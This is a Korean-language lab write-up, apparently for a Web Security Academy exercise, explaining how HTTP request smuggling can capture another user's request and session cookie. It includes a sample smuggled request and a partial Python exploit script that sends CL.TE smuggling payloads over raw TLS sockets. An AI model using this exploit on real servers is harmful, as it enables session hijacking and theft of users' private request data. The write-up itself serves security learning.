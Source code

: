 다른 사용자의 요청이 Back-end 서버에 의해 처리될 때, 그 요청은 smuggle된 요청에 붙게 되고 다른 사용자의 요청이 text로 저장됩니다. 사용자의 요청에는 민감한 정보가 포함되어 있을 수도 있습니다 : 

``` http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

**NOTE :** 이 공격방법에는 한계가 있는데, 파라미터 구분자를 만나기 전까지의 정보만 얻을 수 있다는 것입니다. 만약 `GET` 메소드를 사용하는 요청에서 URL에 `&`를 포함하고 있으면, 필요한 정보들을 얻을 수 없을 수도 있습니다.

**Lab: Exploiting HTTP request smuggling to capture other users' requests**

**LAB Description :**

Front-end, Back-end 서버로 이루어져있고 Front-end 서버는 chunked encoding을 지원하지 않습니다. 

다음 사용자의 요청이 어플리케이션에 저장되게 한 다음, 그 사용자의 쿠키를 이용해 접속하면 됩니다. 

**PAYLOAD :**

``` python
import socket
import requests
import ssl

HOST = "ac071f081f905a1b81bf42e30005007d.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()

    return data

second_request  = b'POST /post/comment HTTP/1.1\r\n'
second_request += b'Host: '+HOST.encode()+b'\r\n'
second_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
second_request += b'Content-Length: 830\r\n'
second_request += b'Cookie: session=AGCd8ZxgfKGUA6th5RrmtM0AaZMeI6MI\r\n'
second_request += b'\r\n'
second_request += b'csrf=erlGB3vcRvPzF0zS6dMCZpCHNdhA5aF1&postId=1&name=jjjj&email=airmancho@kaa.com&website=http://blog.bbangjo.xyz&comment=123\r\n'

first_request_body = b'7d\r\n'
first_request_body += b'csrf=erlGB3vcRvPzF0zS6dMCZpCHNdhA5aF1&postId=1&name=first&email=first@aaaaa.com&website=http://blog.bbangjo.xyz&comment=first\r\n'
first_request_body += b'0\r\n\r\n'

first_request_header  = b'POST /post/comment HTTP/1.1\r\n'
first_request_header += b'Host: '+HOST.encode()+b'\r\n'
first_request_header += b'Content-Length: '+str(len(second_request)+len(first_request_body)).encode()+b'\r\n'
first_request_header += b'Content-Type: application/x-www-form-urlencoded\r\n'
```